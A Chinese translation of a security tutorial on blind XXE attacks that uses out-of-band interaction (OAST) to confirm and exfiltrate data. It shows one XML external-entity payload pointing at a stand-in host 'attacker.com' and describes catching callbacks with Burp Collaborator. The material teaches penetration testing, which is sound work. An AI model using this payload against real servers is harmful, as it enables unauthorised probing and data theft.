 
盲 XXE 攻击 -带外交互技术 (OAST) 泄露数据

- - -

# 盲 XXE 攻击 -带外交互技术 (OAST) 泄露数据

> 译者注：本文为翻译文章，这篇文章基本涵盖了盲 XXE 比较少见的问题的解决方案，值得细看。

hi，大家好！本篇文章将介绍高级 XXE 攻击，需要使用带外交互技术来带出敏感数据。如果你想要学习更多关于基础 XXE 攻击向量，请继续阅读[本文](https://shreyapohekar.com/blogs/xxe-simplified-the-concept-attacks-and-mitigations/)。

## 盲 XXE 的基础知识

服务器可能接受 Body 中的 XML 数据，但是它不一定总是会在响应中返回值。但是，如果您仍然认为应用可能容易受到 XXE 攻击，OAST 则可以作为验证的选择。

## 步骤

要触发带外交互，你必须定义一个外部实体，如下所示

```bash
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://attacker.com">] >
```

然后，您将在 XML 文档的数据值部分使用已经定义的实体。如果这个应用程序容易受到攻击，服务器则要发送一个 http 请求到您的 URL。攻击可以监视 DNS 查找和 http 请求来说明攻击成功了。

您可以使用 burp-collaborator 来生成您的 URL。

-   它使用自己专有的域名，并且该服务器已经注册为该域的权威 DNS 服务器
-   它提供 DNS 服务，使用自己自身的 IP 地址回答在其注册域 (子域) 的任何 DNS 查询
-   他提供 HTTP/HTTPS 服务，并使用有效的，CA 签名的通配符 TLS 证书作为其域名。
-   提供 SMTP/SMTPS 服务

当收到来自易受攻击的服务器的交互时，burp 协作者的屏幕如下所示：

[![](assets/1698897039-733fabf0d62315aa254adf73923199ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210501135009-16f36936-aa41-1.png)
